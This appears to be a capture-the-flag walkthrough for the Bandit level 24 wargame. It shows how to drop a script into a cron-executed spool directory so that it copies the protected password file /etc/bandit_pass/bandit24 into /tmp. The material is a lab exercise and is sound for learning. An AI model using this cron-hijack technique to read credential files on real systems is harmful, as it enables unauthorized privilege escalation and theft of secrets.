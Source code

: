 __ Bandit Level 24 __
---
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

`cat /usr/bin/cronjob_bandit24.sh` shows that there are scripts being run in /var/spool/bandit24.

`ls -l /var/spool/bandit24` shows that we have write and execute permissions in this directory.

So if we write a script that cats the /etc/bandit_pass/bandit24 to the temp directory, then we have the password.
`vim b24script`
``` bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/b24pass/pass.txt
```

This script needs permissions for bandit24 to run it.

`chmod 707 b24script`